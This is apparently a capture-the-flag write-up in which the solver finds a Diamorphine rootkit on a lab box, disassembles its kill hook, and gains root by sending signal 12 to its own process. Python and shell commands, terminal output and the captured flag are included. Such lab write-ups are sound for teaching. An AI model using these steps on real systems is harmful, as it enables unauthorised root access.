










2025-10-31
📦 Root Canal

Initial Reconnaissance
Found README.txt with hint: "fix your root canal" → wordplay on "root"
Searched for SUID binaries (standard system binaries, nothing unusual)
Discovered /opt/.diamorphine/ directory containing rootkit files
Rootkit Analysis
Identified Diamorphine rootkit was loaded (hidden from lsmod)
Used strings on the kernel module to find magic prefix: "squiblydoo"
Discovered the rootkit hides files/directories starting with "squiblydoo"
Finding the Hidden Directory
Attempted to create ~/squiblydoo → got "File exists" error
Confirmed directory existed but was hidden by the rootkit
Directory had 0000 permissions and was owned by root (inaccessible without root)
Privilege Escalation
Analyzed the rootkit binary with objdump and nm
Found give_root and hacked_kill functions
Disassembled hacked_kill to find signal numbers: 11, 12, 13 (not 63/64 as initially tried)
Signal 12 (SIGUSR2) triggers the give_root function
Exploitation
Sent signal 12 to own process: os.kill(os.getpid(), 12) or kill -12 $$
Successfully escalated to root (UID 0)
Accessed hidden directory: ~/squiblydoo/
Retrieved flag: flag{ce56efc41f0c7b45a7e32ec7117cf8b9}
Found diamorphine



found /home/ctf/squiblydoo exists and 0000 perms


module is loaded


cmp $0xc,%eax (line 4bd) - checks if signal is 12 (0xc in hex)
cmp $0xd,%eax (line 4c6) - checks if signal is 13 (0xd in hex)
cmp $0xb,%eax (line 4cb) - checks if signal is 11 (0xb in hex)
So the rootkit is looking for signals 11, 12, or 13

ctf@ip-10-1-12-129:~$ python3 << 'EOF'
> import os
> import signal
>
> # Send signal 12 to ourselves
> os.kill(os.getpid(), 12)
> print(f"UID after signal 12: {os.getuid()}")
>
> if os.getuid() == 0:
> print("[+] Got root!")
> os.setuid(0)
> os.setgid(0)
> os.execv("/bin/bash", ["/bin/bash"])
> else:
> print("[-] Still not root")
> EOF
UID after signal 12: 0
[+] Got root!
ctf@ip-10-1-12-129:~$ ls -la ~/squiblydoo
ls: cannot open directory '/home/ctf/squiblydoo': Permission denied
ctf@ip-10-1-12-129:~$ kill -12 $$
ctf@ip-10-1-12-129:~$ ls -la ~/squiblydoo
total 12
d--------- 2 root root 4096 Sep 26 14:12 .
drwxr-xr-x 9 ctf ctf 4096 Oct 31 13:32 ..
---------- 1 root root 39 Sep 26 14:12 flag.txt
ctf@ip-10-1-12-129:~$ cat ~/squiblydoo/flag.txt
flag{ce56efc41f0c7b45a7e32ec7117cf8b9}

flag{ce56efc41f0c7b45a7e32ec7117cf8b9}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}